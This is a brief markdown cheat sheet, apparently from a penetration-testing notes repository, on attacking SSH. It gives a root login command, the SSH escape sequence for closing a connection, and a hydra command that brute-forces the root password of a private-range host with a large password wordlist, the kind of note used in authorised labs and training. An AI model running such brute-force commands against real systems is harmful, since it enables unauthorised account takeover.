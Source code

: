 ## SSH Penetration Testing

### Login to SSH
`ssh root@10.11.1.140`

### Brute forcing SSH
```
# Brute force SSH, replace 10.11.1.140 with target ip
hydra -e nsr -l root -P /root/Desktop/wordlists/10_million_password_list_top_100000.txt 10.11.1.140 ssh -t 4
```

### Close SSH connection
```
~.
```

